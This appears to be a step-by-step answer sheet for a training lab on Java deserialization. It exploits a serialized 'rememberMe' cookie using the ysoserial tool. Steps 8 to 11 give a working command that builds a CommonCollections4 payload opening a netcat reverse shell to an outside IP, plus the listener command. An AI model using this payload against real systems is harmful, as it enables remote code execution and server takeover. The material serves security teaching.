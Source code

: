 # Java Deserialization Answersheet

**Step 1:**Click on "Java Website: 16661" link
![Usage](1.png)
<br /> <br />

**Step 2:**Provide the following credential and tick the "Remember Me" option and click on Submit button.
```
Username: admin
Password: password
```
Note: The registration functionality is disabled for this application.
![Usage](2.png)
<br /> <br />

**Step 3:**Capture the HTTP request and send this request to repeater "Right Click -> Send to Repeater".
![Usage](3.png)
<br /> <br />

**Step 4:**Click on "send" button and observe that the server respond with "rememberMe" cookie which has java serialized magic string starting with "rO0".
![Usage](4.png)
<br /> <br />

**Step 5:**Observe the serialized value after decode it with Base64.
![Usage](5.png)
<br /> <br />

**Step 6:**Forward the request captured in **Step 3** and click on "Login" button.
![Usage](6.png)
<br /> <br />

**Step 7:**Download the YSoSerial utility from following location, and use the following command to check the payload available.
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
java -jar ysoserial-master-SNAPSHOT.jar
```
![Usage](7.png)
<br /> <br />

**Step 8:**Capture the IP address and use that to generate the reverse shell payload using following command and capture the generated payload.
```
java -jar ysoserial-master-SNAPSHOT.jar CommonCollections4 "nc 192.168.29.88 4444 -e /bin/bash" | base64 -w 0
```
![Usage](8.png)
<br /> <br />

**Step 9:**Start the listener using following command
```
nc -nlvp 4444
```
![Usage](9.png)
<br /> <br />

**Step 10:**Replace the payload generated in **Step 8** in "RememberMe" parameter and click on "send" button to send request to the server.
![Usage](10.png)
<br /> <br />

**Step 11:**Received the reverse shell and obtained the server information using whoami, uname -a, ifconfig.
![Usage](11.png)
<br /> <br />
